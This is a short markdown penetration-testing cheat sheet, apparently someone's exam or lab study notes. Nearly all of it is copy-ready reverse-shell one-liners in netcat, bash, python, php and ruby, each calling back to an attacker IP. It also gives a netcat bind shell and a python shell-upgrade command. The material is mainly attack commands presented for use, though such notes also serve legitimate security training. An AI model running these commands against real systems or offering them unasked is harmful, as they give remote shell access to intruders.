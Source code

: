# Exploitation

## Reverse Shells
- [ ] Netcat
  - [ ] Attacker
  ```bash
  nc -nlvp 1234
  ```
  - [ ] Target
  ```bash
  nc $Attacker_IP 1234 -e /bin/bash
  ```
- [ ] bash
  ```bash
  bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
  bash -c "bash -i >& /dev/tcp/192.168.45.183/443 0>&1"
  ```
- [ ] [perl](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [ ] python
  ```bash
  python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.218",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  ```
- [ ] php
  ```bash
  <?php $sock=fsockopen("192.168.45.218",80);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
  ```
  ```bash
  php -r '$sock=fsockopen("192.168.45.218",80);exec("/bin/sh -i <&3 >&3 2>&3");'
  ```
- [ ] ruby
  ```bash
  ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
  ```

## Bind Shell
- [ ] Netcat
  - [ ] Attacker
  ```bash
  nc $Target_IP 1234
  ```
  - [ ] Target
  ```bash
  nc - nvlp $Attacker_IP 1234 -e /bin/bash
  ```

## Shell Upgrade
- [ ] python
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
